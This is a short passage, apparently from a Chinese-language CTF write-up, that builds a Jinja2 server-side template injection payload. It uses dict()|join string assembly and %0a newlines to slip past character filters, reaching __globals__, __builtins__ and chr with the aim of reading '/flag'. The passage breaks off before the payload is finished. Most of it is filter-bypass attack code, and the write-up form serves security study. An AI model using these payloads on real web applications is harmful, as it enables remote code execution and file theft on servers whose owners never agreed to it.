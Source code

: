 ![6-2.png](6-2.png)

接下来, 考虑到可用字符集, 用拼接字典的方式构造 payload:

> `%0a` (换行符) 用于绕过空格的过滤;

```perl
#构造po="pop"     #利用dict()|join拼接得到
{% set po=dict(po=a,p=a)|join%}
 
#构造a=(()|select|string|list).pop(24),这里a即下划线_
{% set a=(()|select|string|list)|attr(po)(24)%}
 
#构造ini="__init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
 
#构造glo="__globals__"
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
 
#构造geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
 
#构造built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
 
#构造sub="__subclasses__"
{% set sub=(a,a,dict(subclasses=a)|join,a,a)|join()%}

#构造chr()函数调用
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}

#构造file='/flag'
```